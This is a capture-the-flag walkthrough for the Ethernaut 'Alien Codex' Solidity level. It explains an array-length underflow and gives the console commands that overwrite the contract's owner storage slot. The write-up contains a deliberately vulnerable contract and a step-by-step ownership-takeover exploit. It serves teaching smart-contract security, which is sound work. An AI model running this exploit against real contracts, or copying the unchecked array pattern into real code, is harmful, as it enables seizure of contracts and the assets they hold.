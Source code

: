 # 19 - Alien Codex

## Challenge

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function makeContact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

## Summary

We are provided with `AlienCodex` contract which implements `Ownable`. It has an array `codex` and we can add, remove and modify its elements. The goal is to claim ownership of the contract.

The vulnerability is obvious here.

```js
function retract() contacted public {
    codex.length--;
}
```

`retract()` reduces `codex` array size by 1. However it does not check if the array is empty, in which case underflow happens. If we call `retract()` when array size is 0, it will become `2**256 - 1`. Recall that EVM has storage of `2**256` slots, so we can now essentially overwrite any slot we want. Looking at [Ownable](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol#L21), it apparently includes a `address private _owner;` variable. Our goal is to overwrite it with our address and claim ownership.

So the only question is which slot out of `2**256` is `_owner` stored in? Here I referenced a table of how array and values are stored in EVM:

| Slot #           | Variable                                                       |
|------------------|----------------------------------------------------------------|
| 0                | contact bool(1 bytes) & owner address (20 bytes)               |
| 1                | codex.length                                                   |
| keccak256(1)     | codex[0]                                                       |
| keccak256(1) + 1 | codex[1]                                                       |
| ...              | ...                                                            |
| 2²⁵⁶ - 1         | codex[2²⁵⁶ - 1 - uint(keccak256(1))]                           |
| 0                | codex[2²⁵⁶ - 1 - uint(keccak256(1)) + 1] --> can write slot 0! |

`codex[a]` corresponds to slot `keccak256(1) + a`. We want `codex[x]` that will correspond to slot 0. Subtracting both sides or the original `codex[a]` entry by `keccak256(1) + a`, we get `x = -keccak256(1)`, which rounds to `codex[2²⁵⁶ - uint(keccak256(1))]`. Overwriting this entry can then let us change the value of `_owner` to our address.

## Walkthrough

First set `bool public contact` to true to bypass the `contacted` modifier, and then call `retract()` to cause underflow.

```js
> await contract.makeContact()
{tx: '0xf5edb9b59a5cba8977e3728906042ec16cfe4cfb3b2a18192450bd1e4ddbc833', receipt: {…}, logs: Array(0)}
> await contract.retract()
{tx: '0x6bd5809413cf7ce6312d6f7b337bfc7ac83c14e453220f3dc9e9ffeee2085b62', receipt: {…}, logs: Array(0)}
```

Now let's calculate the index. `web3.utils.keccak256` takes parameter from `web3.eth.abi.encodeParameters(['type', 'value']`.

```js
> web3.utils.keccak256(web3.eth.abi.encodeParameters(['uint256'], ['1']))
'0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6'
> BigInt(2**256) - BigInt('0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6')
35707666377435648211887908874984608119992236509074197713628505308453184860938n
```

To overwrite this slot to desired value, recall that `_owner` is before `bool contact` in storage. The actual 32-byte value is in reverse order, i.e. first boolean then our wallet address. `player` is 20 bytes, so we need 12 bytes at the left: `0x0000000000000000000000010b26C24d538e3dfF58F7c733535e65a6674FB3aB`. We can then call `revise()` to overwrite the slot.

```js
> await contract.revise(35707666377435648211887908874984608119992236509074197713628505308453184860938n, '0x0000000000000000000000010b26C24d538e3dfF58F7c733535e65a6674FB3aB')
{tx: '0x1ae37dea80ef66ac4d2a7b3e61ad766a4097853352bde8744b88d29830c52b45', receipt: {…}, logs: Array(0)}
> await contract.owner()
'0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB'
```

Finally, submit the instance to pass the level.

## Afterword

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.